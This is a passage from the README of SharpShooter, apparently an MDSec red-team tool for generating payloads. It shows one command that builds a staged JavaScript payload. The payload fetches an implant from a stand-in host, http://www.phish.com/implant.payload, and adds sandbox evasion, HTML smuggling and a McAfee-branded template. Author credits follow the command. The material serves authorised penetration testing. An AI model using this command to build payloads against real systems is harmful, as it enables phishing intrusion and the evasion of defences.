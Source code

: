 ### Custom CSharp inside VBS ###

```
SharpShooter.py --dotnetver 2 --payload js --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web http://www.phish.com/implant.payload --output malicious --smuggle --template mcafee
```

This example demonstrates how to create a staged JS payload that performs web delivery, retrieving a payload from http://www.phish.com/implant.payload. The generated payload will attempt sandbox evasion, and attempt to compile the retrieved payload which requires mscorlib.dll and System.Windows.Forms.dll as DLL references. The Main method in the MDSec.SharpShooter namespace will be executed on successful compilation. 

Author and Credits
==================
Author: Dominic Chell, MDSec ActiveBreach [@domchell](https://twitter.com/domchell) and [@mdseclabs](https://twitter.com/mdseclabs)

Credits:
- [@tiraniddo](https://twitter.com/tiraniddo): James Forshaw for DotNetToJScript
- [@Arno0x0x](https://twitter.com/Arno0x0x): for EmbedInHTML
- [@buffaloverflow](https://twitter.com/buffaloverflow): Rich Warren for Demiguise
- [@arvanaghi](https://twitter.com/arvanaghi) and [@ChrisTruncer](https://twitter.com/ChrisTruncer): Brandon Arvanaghi and Chris Truncer for CheckPlease
